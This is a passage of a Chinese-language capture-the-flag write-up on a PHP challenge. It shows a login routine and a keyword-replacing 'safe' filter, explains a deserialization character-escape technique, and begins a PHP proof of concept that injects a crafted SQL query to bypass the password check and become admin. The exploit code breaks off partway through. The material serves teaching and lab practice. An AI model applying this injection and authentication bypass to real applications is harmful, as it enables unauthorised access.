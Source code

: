 ```
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        if ($this->mysqli->connect_error) {
            die("连接失败，错误:" . $this->mysqli->connect_error);
        }
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
    public function update($sql)
    {
        //还没来得及写
    }
}

```

在UpdateHelper类里发现反序列化，在user类里发现了字符的替换和sql语句

这里最重要的一句话`safe(serialize(new Info($age,$nickname)))`显示将`Info`类进行序列化然后经过`safe`过滤，然后再回到`update`方法中反序列化，再看看`safe`函数

```
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
```

很明显，safe函数进行了字符的替换，所以这道题还需要用到反序列化字符逃逸来做

关键还是进行登录

虽然我们不知道admin的密码，但如果让login执行的sql语句是`select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?`，那么密码校验就能直接通过，token会被赋成admin。

```
<?php
class User
{
    public $age = null;
    public $nickname = null;
    public function __construct()
    {
        $this->age = 'select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?';
        $this->nickname = new Info();
    }
}
class Info
{
    public $CtrlCase;
    public function __construct()
```